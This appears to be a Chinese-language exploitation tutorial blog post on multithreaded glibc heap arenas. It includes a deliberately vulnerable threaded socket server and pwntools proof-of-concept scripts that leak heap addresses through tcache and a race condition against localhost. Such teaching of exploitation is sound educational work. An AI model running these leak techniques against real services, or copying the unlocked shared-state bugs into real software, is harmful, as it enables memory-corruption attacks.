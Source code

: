 ```yaml
---
layout: post
tags: [pwn]
title: "thread-heap : arenas"
author: wsxk
date: 2025-5-3
comments: true
---
```


- [前言：信息获取是很重要的](#前言信息获取是很重要的)
- [1. multi-thread heap布局: arenas](#1-multi-thread-heap布局-arenas)
  - [1.1 实际例子](#11-实际例子)
  - [1.2 multi-thread: arenas](#12-multi-thread-arenas)
  - [1.3 实操：泄露多线程环境下的堆地址](#13-实操泄露多线程环境下的堆地址)
    - [1.3.1 直接使用tcache泄露地址：截断](#131-直接使用tcache泄露地址截断)
    - [1.3.2 race condition来泄露堆地址](#132-race-condition来泄露堆地址)


# 前言：信息获取是很重要的<br>
[https://wsxk.github.io/exploitation/](https://wsxk.github.io/exploitation/)<br>
里面提到强大的黑客在攻破一个系统前，最重要的步骤是信息的获取,包括外部侦查和内部侦察两部分。<br>
包括我们之前的漏洞利用技术，如果缺少了某些关键信息，就无法完成，如:<br>
```
1. ROP在不知道程序的地址的情况下，是无法成功利用的
2. heap cache poisoning 经常要求你必须知道你想让heap申请的内存的地址是哪一个
```
目前为止，我们已经用过很多的信息纰漏的技巧，如<br>
```
1. 未初始化的内存
2. heap metadata
3. overlapping allocations
4. bruteforce 多线程canary
```
接下来，我们来了解一下多线程下的信息泄露，尤其是多线程下的heap布局⑧<br>

# 1. multi-thread heap布局: arenas<br>
先前学过了`race condition`这个概念，我们知道，在多线程场景下，`race condition`有相当大的危害。<br>
## 1.1 实际例子<br>
```c
char *messages[16] = { 0 };
int stored[16] = { 0 };

void vuln(FILE *in, FILE *out) {
    fprintf(out, "Welcome to the message server! Commands: malloc/scanf/printf/free/quit.\n");
    char input[1024];
    int idx;

    while (1)
    {
        if (fscanf(in, "%s", input) == EOF) break;
        if (strcmp(input, "quit") == 0) break;
        if (fscanf(in, "%d", &idx) == EOF) break;

        if (strcmp(input, "printf") == 0) {
            if (fprintf(out, "MESSAGE: %s\n", stored[idx] ? messages[idx] : "NONE") < 0) break;
        }
        else if (strcmp(input, "malloc") == 0) {
            if (!stored[idx]) messages[idx] = malloc(1024);
            stored[idx] = 1;
        }
        else if (strcmp(input, "scanf") == 0) {
            fscanf(in, "%1024s", stored[idx] ? messages[idx] : input);
        }
        else if (strcmp(input, "free") == 0) {
            if (stored[idx]) free(messages[idx]);
            stored[idx] = 0;
        }
        else fprintf(stderr, "INVALID COMMAND %s %#llx\n", input, *(unsigned long long*)input);
    }
}

void *handle_connection(void *fd) {
    FILE *in = fdopen((long)fd, "r");
    FILE *out = fdopen((long)fd, "w");
    setvbuf(in, NULL, _IONBF, 0);
    setvbuf(out, NULL, _IONBF, 1);

    fprintf(stderr, "Handling connection on FD %d\n", (int)fd);
    vuln(in, out);
    fprintf(stderr, "Closing connection on FD %d\n", (int)fd);

    close((long)fd);
    pthread_exit(0);
}

int main() {
    int server_fd = socket(AF_INET, SOCK_STREAM, 0);
    int option = 1;
    setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR | SO_REUSEPORT, &option, sizeof(option));
    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY;
    server_addr.sin_port = htons(1337);
    bind(server_fd, (struct sockaddr *) &server_addr, sizeof(server_addr));
    listen(server_fd, 4096);

    while (1) {
        pthread_t thread;
        long connection_fd = accept(server_fd, NULL, NULL);
        pthread_create(&thread, NULL, handle_connection, (void *)connection_fd);
    }
}
```
在这种场景下，因为**多线程场景中，没有加锁的安全检查是无效的，因此我们可以无视安全检查，以任意顺序执行malloc，scanf，free，printf操作**<br>
根据我们先前学过的heap知识，只要了解了程序的一些基本信息，我们就可以利用漏洞来获得程序的控制权限了。基本信息如下：<br>
```
1. PIE base (binary address)
2. ASLR base (library addresses)
3. Stack base
4. Heap base
5. Canary
```
通常情况下，我们可以用**tcache的漏洞来泄露heap的基址，但是事实真有那么容易吗？**<br>

## 1.2 multi-thread: arenas<br>
书接上文，要想利用这个漏洞，可以考虑tcache相关的泄露地址的方式，但是跟之前我们遇到的不同（之前的heap只有一个线程），这是一个多线程的程序，各个线程上的堆布局，和主线程的堆布局有一定的区别<br>
**在多线程场景中，多线程利用中泄露的堆地址，其实是线程使用的堆，而不是寻常进程主线程使用的堆地址。**<br>
再来看一个实际的代码案例:<br>
```c
#include <sys/socket.h>
#include <sys/types.h>
#include <arpa/inet.h>
#include <pthread.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <fcntl.h>

void * thread_main(void * x){
    printf("addr: %p\n",malloc(1024));
    pthread_exit(0);
}

int main(){
    printf("MAIN addr: %p\n",malloc(1024));
    pthread_t t1,t2,t3,t4;
    pthread_create(&t1,NULL,thread_main,NULL);
    pthread_create(&t2,NULL,thread_main,NULL);
    pthread_create(&t3,NULL,thread_main,NULL);
    pthread_create(&t4,NULL,thread_main,NULL);
    pthread_join(t1,NULL);
    pthread_join(t2,NULL);
    pthread_join(t3,NULL);
    pthread_join(t4,NULL);
}
// gcc arena.c -o arena -lpthread
//strace -f ./arena 2>&1 | grep -E "(mmap|addr)"
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250507225852.png)
可以看到**非主线程中的堆分配地址，都是mmap得来的，且有很高的相关性，知道其中一个，就能知道其余线程的堆地址**<br>
在了解了多线程堆的布局后，程序的基本信息就可以更新了:<br>
```
1. PIE base (binary address)
2. ASLR base (library addresses)
3. Stack base
4. Heap base
5. Thread-specific arenas  #新增
6. Canary
```
## 1.3 实操：泄露多线程环境下的堆地址<br>
**回到1.1的代码，如果我们想要利用泄露堆地址，首先可以利用tcache机制进行泄露，这里有一个问题，从1.2的案例我们可以知道，线程堆地址中间部分是有`\x00`字符存在的，而1.1代码中的`fprintf`函数遇到`\x00`字符会截断；如果要利用这个机制泄露地址，我们需要一直申请内存，直到中间没有`\x00`字节才行**<br>
### 1.3.1 直接使用tcache泄露地址：截断<br>
```python
from pwn import *
context.log_level = 'debug'
with process("./test") as p:
    r = remote("localhost",1337)
    r.sendline("malloc 0 malloc 1 malloc 2 free 0 free 1 free 2 malloc 3 printf 3 quit")
    print(r.readall())
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250507230140.png)

### 1.3.2 race condition来泄露堆地址<br>
如果我们深入printf函数，我们可以知道，其原理类似于如下代码:<br>
```
int printf_string(the_string) {
    int length = strlen(the_string);
    write(1, the_string, length);
}
```
因此可以利用`race condition`来泄露堆地址！<br>
原理如下:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250508220532.png)
因为`write需要陷入内核态，和free不用，因此race condition出现的概率并不小`<br>
POC如下:<br>
```python
from pwn import *
import os
# context.log_level = 'debug'

with process("./test") as p:
    r1 = remote("localhost",1337)
    r2 = remote("localhost",1337)
    if os.fork() == 0:
        for _ in range(10000):
            r1.sendline(b"malloc 0 scanf 0 AAAAAAAABBBBBBBB free 0")
        os.kill(os.getpid(),9)
    else:
        for _ in range(10000):
            r2.sendline(b"printf 0")
        print(set(r2.clean().splitlines()))
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250508223105.png)

<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>
